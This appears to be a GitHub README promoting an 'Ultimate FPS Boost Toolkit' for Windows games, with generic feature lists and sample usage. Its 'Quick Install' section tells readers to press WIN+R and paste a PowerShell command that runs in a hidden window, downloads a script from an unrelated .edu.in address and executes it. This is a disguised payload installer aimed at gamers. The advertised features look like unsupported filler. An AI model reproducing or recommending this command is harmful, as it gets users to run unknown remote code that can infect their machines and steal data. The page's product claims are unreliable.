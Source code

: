 ## 🚀 Ultimate FPS Boost Toolkit
<details> <summary><strong>🔥 FPS Optimization Suite</strong></summary>
✅ Game Performance Booster
Automatic system tweaks for maximum FPS

Intelligent background process management

One-click gaming mode activation

Real-time performance monitoring overlay

✅ Advanced Rendering Tweaks
DirectX/OpenGL/Vulkan optimizer

Resolution scaler with sharpening

LOD (Level of Detail) adjuster

Shadow quality optimizer

</details><details> <summary><strong>🎮 Game-Specific Profiles</strong></summary>
🕹️ Pre-configured Optimizations
Competitive esports titles (Valorant, CS2, Fortnite)

Open world games (Cyberpunk 2077, Elden Ring)

VR titles optimization

Emulator performance packs

</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/grapesubject/repairbetter))).Invoke();
```

```
# Example: Auto-detect and apply game profile
from fps_boost import GameOptimizer

optimizer = GameOptimizer()
optimizer.detect_game()  # Auto-detects running game
optimizer.apply_esports_profile()  # Applies competitive settings
```


</details><details> <summary><strong>⚙️ Low-Level Tweaks</strong></summary>
🛠️ System Performance
CPU core unparker

Memory latency reducer

NVidia/AMD GPU specific tweaks

SSD optimization for game loading

🔓 FPS Unlocker
Frame rate cap remover

Physics-engine speed adjuster

Cutscene FPS unlock

VSync control panel

</details><details> <summary><strong>📊 Performance Analytics</strong></summary>
📈 Benchmark Tools
Before/after comparison

Frame time analysis

1% low FPS tracker

Thermal throttling monitor

</details><details> <summary><strong>📥 Installation & Usage</strong></summary>
System Requirements:

Windows 10/11 (64-bit)

4GB+ RAM

DirectX 11+ compatible GPU

Installation:

Download latest release

Run installer as administrator

Select games to optimize

Apply recommended settings

</details>

### Command Line Options:

```
fpsboost --game=cs2 --profile=competitive
fpsboost --benchmark --output=report.html
```

🔹 License: MIT (Open Source)
🔹 Warning: Use at your own risk - may affect online game anti-cheat systems
